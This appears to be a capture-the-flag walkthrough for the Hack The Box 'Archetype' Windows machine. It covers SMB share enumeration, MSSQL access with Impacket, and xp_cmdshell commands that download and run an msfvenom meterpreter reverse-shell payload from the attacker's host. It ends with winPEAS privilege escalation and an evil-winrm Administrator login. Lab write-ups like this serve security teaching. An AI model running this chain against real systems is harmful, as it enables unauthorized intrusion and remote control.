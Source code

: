 #Windows #SMB #SQL



**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.95.187
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* 135/tcp   open  msrpc        Microsoft Windows RPC
* 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
* 445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
* 1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.0
* 5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  msrpc        Microsoft Windows RPC
* 49665/tcp open  msrpc        Microsoft Windows RPC
* 49666/tcp open  msrpc        Microsoft Windows RPC
* 49667/tcp open  msrpc        Microsoft Windows RPC
* 49668/tcp open  msrpc        Microsoft Windows RPC
* 49669/tcp open  msrpc        Microsoft Windows RPC

**SMB Client** to enumerate the SMB


```sh
  smbclient -N -L \\\\10.129.95.187\\
  ```

List of shares (**-L**)

No password (**-N**)

![image](https://user-images.githubusercontent.com/99097743/169720137-8d8b886d-3eb6-4862-b00f-76014203e263.png)

One of the sharenames does not have the dollar sign (**backups**) --> Non-Administrative share over SMB  


```sh
  smbclient -N //10.129.95.187/backups
  ```

**Impacket** to connect and authenticate to the MSSQL server

Impacket is a collection of Python classes for working with network protocols. Impacket packet includes **mssqlclient.py**  An MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS. **It can be used in order to establish an authenticated connection to a Microsoft SQL Server**.


https://github.com/SecureAuthCorp/impacket

Impacket Installation Steps:
```sh
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket
supo python3 ./setup.py install
```

The command to connect and authenticate to the MSSQL server:
```sh
mssqlclient.py ARCHETYPE/sql_svc:{Password}@10.129.95.187 -windows-auth
```

- Please make sure to **enable xp_cmdshell** and **reconfigure**
- Need to use **xp_cmdshell** before every comments
  - xp_cmdshell dir --> Shows directory
  - xp_cmdshell "powershell -c cd C:/; pwd" --> First changes dir to C:/ then shows pwd

**Generate Reverse Shell**

We can try **msfvenom** tool to generate the payload for the reverse shell. 

![image](https://user-images.githubusercontent.com/99097743/169732063-60f5b6b4-3640-4197-92d5-8c265a02d9c7.png)

This command is important. It shows all framework payloads
```sh
msfvenom -l payloads 
```

The command to generate the payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.26 -f exe -o payload.exe
# Next Open Metasploit Framework
msfconsole
use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
run
# Now our listener is active to connect to our localhost machine with VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/169736888-315fe72f-fcd1-4e3f-af66-e5839c9659ed.png)

Now we need to transfer the payload (payload.exe) to the target machine

```sh
sudo python3 -m http.server 80
```

Now we go back to SQL server. 
Try to find directory with write and execute permissions 

```sh
xp_cmdshell "powershell -c cd C:/Users/Public"
# Now transfer the file
xp_cmdshell "powershell -c cd C:/Users/Public; wget http://10.10.16.26/payload.exe -o payload.exe"
# Make sure it's is downloaded
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
# Let's execute the payload
xp_cmdshell "powershell -c cd C:/Users/Public; ./payload.exe"
```

Good job! meterpreter shell is activated:

![image](https://user-images.githubusercontent.com/99097743/169738799-2cc02f1e-e5d5-4b89-91a9-37b2860fb99f.png)

```sh
getuid
#user info
```

```sh
upload winPEASx64.exe
# IMPORTANT: For the Meterpreter shell, the local working directory is the location where one started the Metasploit console.
# In this case: $upload winPEASx64.exe: takes the file from /home/kali/htb/archetype to the target machine
```

We can now run winPEAS
```sh
shell
winPEASx64.exe
```
![Screenshot 2022-05-22 231416](https://user-images.githubusercontent.com/99097743/169742009-1a9d012b-6648-44d7-8603-a9be8d8aa013.png)

Now we have access to Administrator username:password! 

We can use evil-winrm 
https://www.kali.org/tools/evil-winrm/


```sh
evil-winrm -u Administrator -p {PASSCODE} -i 10.129.95.187
```
![image](https://user-images.githubusercontent.com/99097743/169846841-1375fdb3-80e3-4749-ad4c-282cf92d3a62.png)





